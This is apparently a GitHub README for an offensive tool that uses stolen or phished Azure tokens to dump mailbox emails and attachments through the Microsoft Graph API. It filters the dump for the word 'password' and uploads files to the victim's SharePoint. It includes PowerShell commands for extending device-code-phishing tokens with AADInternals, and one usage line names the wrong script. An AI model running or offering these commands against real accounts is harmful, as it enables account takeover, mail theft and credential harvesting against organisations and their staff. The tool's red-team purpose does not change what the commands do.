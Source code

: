 # MsGraphFunzy
Script to dump emails through Microsoft Graph API. it also include another script to push a file on the Azure tenant.

# Usage graph_dump.py

This script dump emails and attachments

```
python3 graph_dump.py extended_azure_token_file_path (optional filter)
```
# Filter examples

```
body:password
subject:password
attachment:password

python3 graph_dump.py extended_azure_token_file_path body:password
```

# Usage push_sharepoint.py 

This script can be used to host on file on an Azure tenant

```
python3 extract_email.py extended_azure_token_file_path file_to_upload_path remote_filename (optional -organization)
```

# Device code phishing extended scope

```
PS> install-module aadinternals
PS> import-module aadinternals
PS> $t = Get-AADIntAccessTokenWithRefreshToken -clientid "d3590ed6-52b3-4102-aeff-aad2292ab01c" -resource "https://graph.microsoft.com" -tenantid "" -refreshtoken "" -savetocache 1 -includerefreshtoken 1
PS> Write-Output $t
```

# Credit
Mr.Un1k0d3r RingZer0 Team
